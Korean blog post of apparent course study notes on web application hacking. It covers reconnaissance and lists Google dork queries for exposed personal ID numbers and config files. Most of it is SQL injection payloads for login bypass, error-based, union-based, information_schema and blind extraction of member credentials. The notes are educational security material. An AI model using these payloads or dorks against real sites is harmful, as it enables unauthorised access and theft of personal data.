 ```yaml
---
layout: post
title: "웹 어플리케이션 보안 -2"
author: "한결"
categories: blog
---
```



### 쿠키

* 웹 해킹 절차 : 공격대상 선정 -> 정보수집 -> 취약점 분석 -> 공격 -> 보고서
* 정보수집
  * 포트 스캔
  * 사이트 정보 수집
    * ip 확인 nslookup 도메인 이름
    * 사이트 구조 (웹서핑)
    * whois
    * netcraft.com
    * archive.org
    * 크롤링
    * 소스보기, 개발자 도구
    * 검색엔진 정보수집

* 디렉터리 리스팅 취약점 : 서버 설정 미흡

* 구글 해킹 

  구글 검색을 통해 검색되는 중요 정보들이 존재함. 보안 미흡.

  * intitle:index.of 영화
  * filetype:xlsx 주민등록번호
  * inurl:admin/member_list.jsp
  * inurl:dbconn.inc
  * https://www.exploit-db.com
  * shodan.io



* 구글해킹 대책 : 구글 사이트에 신고할 것.
  * robots.txt : 검색되지 않게하는 설정파일을 작성함. 설정파일을 무시하고 검색되게 만드는 사이트도 있음.
  * /robot_flag/
  * http://ctf.j0n9hyun.xyz:2020/



### 모의해킹 

체크리스트 기반의 취약점을 진단해본다. 전세계에서 유명한 취약점 리스트를 알아야 함.

* 국내에서 자주 사용하는 취약점 리스트
  * 국정원 8대 취약점
  * 과기부, 행안부, kisa -> 각종 취약점, 보안 관련 가이드 문서. 주요기반시설취약점 진단 가이드



### SQL 인젝션

웹 어플리케이션이 데이터베이스에 날리는 SQL을 개발자가 의도하지 않은 형태로 조작하여 공격하는 기법이다.

* Form SQL Injection (bypass SQL Injection) 로그인 SQL 인젝션

  ```
  Form SQL Injection (bypass SQL Injection)
  
  select * from member where id='사용자입력id' and pwd='사용자입력pwd'
  -> 일반적인 로그인 과정에서 SQL 쿼리문
  
  id : ' or 1=1--
  
  -- : MSSQL, ORALCD에서 사용되는 주석처리
  # : MYSQL에서 사용되는 주석처리
  ```

  ```
  select * from member where id='' or 1=1--
  -> 첫번째 조회되는 사용자의 계정으로 로그인됨.
  
  ' or ''='
  ' or '1'='1'
  ' or '1'='1
  
  ' or '2'='2
  ' or 2>1
  ' or 1=1--
  
  반복적으로 숫자를 바꿔서 시도해보며 해킹시도.
  ```

  * http://coashanee5.blogspot.com/2017/02/sql.html

  

  ```
  select * from member where (id='아이디' and pwd='패스워드');
  -> ' or 1=1)--
  
  특정 사용자로 로그인 시도
  attacker'--
  ```





* Error based SQL injection

  응답 에러메세지를 통해 정보를 획득하여 공격하는 SQL 인젝션 공격기법

  게시판 검색창을 통해 해킹.

  ```
  ' and db_name()=0-- 
  -> db 이름 알아내기
  
  ' and @@version=0-- 
  -> dbms 버전 정보 알아내기
  
  ' and @@serviocename=0-- 
  -> dbms 서비스 이름 알아내기
  ```

  * having

    ```
    ' having 1=1--
    -> 에러 발생하며 DB 테이블명이 chapter1 컬럼명은 idx 라는 정보를 알아냄
    ```

  * group by

    ```
    ' group by chapter1.idx--
    -> 정보 획득 chapter1.level_idx 
    
    ' group by chapter1.idx, chapter1.level_idx--
    -> 정보 획득 'chapter1.ref_idx' 
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx--
    -> 정보 획득 'chapter1.title' 
    
    chapter1.idx   chapter1.level_idx   chapter1.ref_idx  chapter1.title
    
    ' group by chapter1.idx, chapter1.level_idx, chapter1.ref_idx, chapter1.title, chapter1.name, chapter1.wtday, chapter1.hitcnt--
    
    ```

    ```
    로그인창에서도 똑같이 에러정보를 통해 컬럼명을 획득할 수 있다.
    
    'group by member.m_idx,member.m_id,member.m_name --
    ```



### Union SQL Injection의 조건

Union으로 연결할 양쪽의 컬럼의 수가 같아야 한다. 같은 위치의 컬럼의 타입이 다를 경우 에러가 발생할 수 있다. 컬럼의 이름이 정확해야 한다.

```
' union select NULL,NULL,NULL,NULL,NULL,NULL,NULL from member--

' union select 1,1,1,1,1,1,1 from member--


' union select 1,1,1,m_id,m_name,NULL,NULL from member--

-> union select를 사용하여 member 테이블의 데이터를 게시판 항목으로 출력

' union select 1,1,1,m_id,m_name,NULL,NULL from member where m_id > 'b'--
```





### information_schema를 사용한 DB 정보 획득 SQL 인젝션

* MYSQL, MSSQL의 경우 information_schema 데이터 베이스에 전체 DB의 정보가 저장됨.
* information_schema.columns 테이블을 조회할 경우, 전체 DB의 테이블명, 컬럼명을 조회할 수 있음. (table_name, column_name)
* Union SQL Injection 으로 information_schema.columns의 항목을 포함시켜 DB 정보 획득 공격을 진행해보도록 한다.

```
' union select 1,1,1,table_name,column_name,NULL,NULL from information_schema.columns--
-> 테이블 명, 컬럼 명 조회

' union select 1,1,1,table_name,NULL,NULL,NULL from information_schema.columns--
-> 테이블 명만 조회
-> member 테이블 존재 확인

' union select 1,1,1,column_name,NULL,NULL,NULL from information_schema.columns where table_name='member'--
-> 멤버테이블의 컬럼명을 확인
-> 테이블명, 컬럼명이 확인이 되고 해당 정보를 바탕으로 union select를 사용하여 멤버 정보를 출력할 수 있다.

' union select 1,1,1,m_id,m_pwd,NULL,NULL from member--
```



### Blind SQL Injection

쿼리 결과(참, 거짓) 에 따라 정보를 획득하여 공격하는 기법

```
attacker' and 1=1-- 참구문
attacker' and 1=2-- 거짓구문
-> and 뒤의 조건이 참이나 거짓일 경우 결과가 다르게 나타남을 활용한다.
```

* Blind SQL Injection을 이용하여 db 이름 알아내기 실습

  ```
  substring('abcdef', 1,2);
  => abcdef 중 ab 반환 1번째부터 시작해서 2개 길이 반환
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('a')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('g')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('m')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),1,1)) >= ASCII('l')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),2,1)) >= ASCII('e')--
  
  attacker' and ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0))) AS varchar(20)),3,1)) >= ASCII('e')--
  
  ```

  * db이름 : le

    문제점 : -> 노가다가 너무 심하고 시간이 너무 오래걸린다.
    해결책: 자동화된 공격 툴로 공격을 수행한다.
